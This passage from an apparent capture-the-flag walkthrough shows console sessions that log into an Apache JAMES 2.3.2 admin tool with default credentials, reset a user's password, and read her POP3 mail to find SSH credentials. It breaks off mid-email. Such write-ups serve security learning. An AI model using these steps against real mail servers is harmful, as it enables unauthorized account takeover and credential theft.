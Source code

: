 Then we change mindy’s password.

```console
root@kali:~$ telnet 192.168.179.185 4555
Trying 192.168.179.185...
Connected to 192.168.179.185.
Escape character is '^]'.
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
setpassword mindy mindy
Password for mindy reset
```

We login as user **mindy** on pop3 service and see her SSH login credentials.

```console
root@kali:~$ telnet 192.168.179.185 110                                                                                                                  
Trying 192.168.179.185...                                                                                                                                           
Connected to 192.168.179.185.                                                                                                                                       
Escape character is '^]'.                                                                                                                                           
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready                                                                                                          
user mindy                                                                                                                                                          
+OK                                                                                                                                                                 
pass mindy                                                                                                                                                          
+OK Welcome mindy                                                                                                                                                   
list                                                                                                                                                                
+OK 2 1945                                                                                                                                                          
1 1109                                                                                                                                                              
2 836                                                                                                                                                               
. 
retr 2
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,
```